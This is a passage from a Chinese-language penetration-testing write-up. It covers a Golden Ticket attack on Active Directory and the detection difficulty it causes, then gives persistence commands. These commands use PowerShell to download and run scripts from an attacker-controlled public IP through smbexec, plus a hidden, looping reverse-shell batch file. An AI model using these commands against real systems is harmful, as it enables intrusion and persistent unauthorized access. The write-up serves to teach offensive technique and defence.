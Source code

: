 

```
PS C:Windowssystem32&gt; whoami
supercompanyadministrator
```

即使Administrator的密码变了，这种手段也会奏效。

关于Golden Ticket的潜在危险，我有几句话要说：

发现伪造的Kerberos Tickets非常困难([https://adsecurity.org/?p=1515](https://adsecurity.org/?p=1515) )

在有证据的情况下，唯一的方法就是重置krbtg密码两次，但这可能会对Active Directory Infrastructure造成严重影响

<br>

**最后要做的**

还记得我们是怎么在SRVWSUS获得第一个powershell远程shell的吗？

我们从企业内部网络的服务器执行了一个远程命令，通过安卓手机的Meterpreter转发这个连接。要是我们失去了Powershell的远程shell，并且再也没有连接到受害者怎么办？Game Over…

我们需要添加对SRVWSUS shell的持久访问权！

怎么做呢？答案是通过从Tomcat的webshell添加访问SRVWSUS的功能：



```
# 1st smbexec command:
IEX (New-Object Net.WebClient).DownloadFile(`’http://&lt;OUR_PUBLIC_IP&gt;/r1.ps1`’,
`’c:tmpr1.ps1`’)
# 2nd smbexec command:
IEX (New-Object Net.WebClient).DownloadFile(`’http://&lt;OUR_PUBLIC_IP&gt;/r1.bat`’,
`’c:tmpr1.bat`’)
# 3rd smbexec command:
‘cmd /c c:tmpr1.bat’
What does r1.bat contain?
@echo off
:loop
powershell -executionpolicy bypass -windowstyle hidden -f c:tmpr.ps1
timeout /t 10
goto loop
```

虽不优雅，但是有效。一旦丢失了连接，等待十秒钟就会重新回连。

我们当然可以加密混淆所有的.ps1脚本，但我们就是想给你展示它的原理。

<br>

**结论**

这就是我们的工作，并没有发明什么新的东西，但是使用Windows内置的功能和一些脚本，我们做了件大事。有时候我们并不需要什么魔法一样的工具，只需要K.I.S.S.原则。

总之，聪明的去办事吧！
